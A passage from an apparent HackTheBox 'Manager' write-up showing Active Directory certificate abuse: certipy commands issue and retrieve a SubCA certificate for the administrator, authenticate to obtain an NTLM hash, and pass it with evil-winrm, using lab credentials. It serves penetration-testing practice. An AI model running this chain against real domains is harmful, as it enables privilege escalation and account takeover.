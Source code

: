 Successfully saved the private key and the request ID.

Now we issue the request using the -issue-request

```bash
certipy ca -ca 'MANAGER-DC01-CA' -dc-ip 10.129.238.7 -u 'raven' -p 'R4v3nBe5tD3veloP3r!123' -issue-request 22
```

![image.png](/assets/images/Manager_HTB/image%2029.png)

Now after issuing the certificate we request our issue-request using the request id.

### ESC1

After doing the above steps we are exploiting ESC1 in one or another way.

```bash
certipy req -ca 'MANAGER-DC01-CA' -dc-ip 10.129.238.7 -u 'raven' -p 'R4v3nBe5tD3veloP3r!123' -template 'SubCA' -target dc01.manager.htb -upn administrator@manager.htb -retrieve 22
```

![image.png](/assets/images/Manager_HTB/image%2030.png)

Since now we have the administrator.pfx we can authenticate with it.

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.129.238.7
```

![image.png](/assets/images/Manager_HTB/image%2031.png)

We have the administrator hash, using evil-winrm to authenticate with administrator.

```bash
evil-winrm -i manager.htb -u Administrator -H ae5064c2f62317332c88629e025924ef
```
